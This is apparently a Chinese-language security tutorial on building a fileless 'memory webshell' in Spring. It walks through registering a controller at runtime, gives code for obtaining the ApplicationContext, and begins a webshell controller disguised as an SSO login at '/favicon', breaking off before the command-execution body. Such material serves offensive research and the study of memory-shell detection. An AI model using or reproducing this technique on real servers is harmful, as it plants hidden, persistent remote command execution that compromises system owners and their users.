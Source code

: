 如果要访问和操作 bean（也就是动态注册`controller`的话 ），一般要获得当前代码执行环境的IoC 容器 代表者 ApplicationContext。

- 在不使用注解和修改配置文件的情况下，使用纯 java 代码在上下文环境中手动注册一个 controller；
- controller 中写入 Webshell 逻辑，达到和 Webshell 的 URL 进行交互回显的效果；

#### （1）demo

这里，我们可以看看一个普通的`controller`：（代码主要参考了[基于内存 Webshell 的无文件攻击技术研究](https://www.anquanke.com/post/id/198886)）

```java
@Controller
public class HelloController {
    @RequestMapping(value = "/hello", method = RequestMethod.GET)
    public String hello(@RequestParam(value="name", required=false, defaultValue="World") String name, Model model) {
        model.addAttribute("name", name);
        return "hello";
    }
}
```

通过`@RequestMapping`注解标明`url`和请求方法，编译部署后，`spring`会根据这个注解注册好相应的`controller`。因此，最终我们构造的webshell也是需要利用`@RequestMapping`来进行注册的。

当用浏览器访问` /hello `路径时，会在定义好的` View` 中输出 `hello World `字样

#### （2）内存马

这里主要参考了文章：[基于内存 Webshell 的无文件攻击技术研究](https://www.anquanke.com/post/id/198886)

**第一步：**获取`ApplicationContext`的内容

主要有以下几种方法：

```java
// getCurrentWebApplicationContext
WebApplicationContext context = ContextLoader.getCurrentWebApplicationContext();
// WebApplicationContextUtils
WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest()).getServletContext());
//RequestContextUtils
WebApplicationContext context = RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest());
// getAttribute
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```

**第二步：**构造webshell的controller

```java
用来执行命令回显的 Webshell 代码示例：

package me.landgrey;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

@Controller
public class SSOLogin {

    @RequestMapping(value = "/favicon")
    public void login(HttpServletRequest request, HttpServletResponse response){
        try {
```